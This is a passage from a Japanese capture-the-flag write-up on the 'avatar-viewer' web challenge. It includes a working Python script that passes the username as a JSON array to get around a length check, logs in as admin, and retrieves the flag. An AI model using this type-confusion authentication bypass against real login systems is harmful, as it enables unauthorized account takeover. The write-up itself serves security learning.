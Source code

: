 これも `username` に `['admin-b01b9d62015f8b68']` のような配列を入れれば `username.length` は `1` になるはずですから、チェックを回避できるはずです。やってみましょう。

```python
import json
import re
import requests

URL = 'http://(省略)/avatar-viewer/'

r = requests.post(URL + 'login', headers={
  'Content-Type': 'application/json'
}, data=json.dumps({
  'username': ['admin-b01b9d62015f8b68'],
  'password': 'b56c497ff08f76536631f2cc1100521ffabfece3d2da67c71176d69dcba41a25'
}))

print(r.cookies['avatar-session'])
```

これを実行して出力されたセッション ID を Cookie にセットして URL にアクセスすると、以下のように `admin-b01b9d62015f8b68` としてログインできたことが確認できます。

![adminになれた](../images/2020-12-29_avatar-viewer2.png)

`/admin` にアクセスするとフラグが得られました。

![まじナチュラルスーパーニャン](../images/2020-12-29_avatar-viewer3.png)
